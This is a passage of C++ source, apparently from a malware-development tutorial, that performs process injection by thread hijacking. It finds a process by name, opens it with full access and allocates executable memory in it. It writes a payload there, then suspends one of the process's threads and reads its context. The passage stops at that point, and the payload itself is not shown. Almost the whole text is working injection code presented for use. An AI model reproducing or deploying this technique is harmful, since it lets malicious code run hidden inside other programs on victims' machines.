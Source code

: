 ```cpp
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer

  HANDLE hSnapshot;
  THREADENTRY32 te;
  CONTEXT ct;

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ct.ContextFlags = CONTEXT_FULL;
    te.dwSize = sizeof(THREADENTRY32);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed! exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, my_payload_len, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

    // find thread ID for hijacking
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
    if (Thread32First(hSnapshot, &te)) {
      do {
        if (pid == te.th32OwnerProcessID) {
  	  ht = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
          break;
  	}
      } while (Thread32Next(hSnapshot, &te));
    }

    // suspend target thread
    SuspendThread(ht);
    GetThreadContext(ht, &ct);
```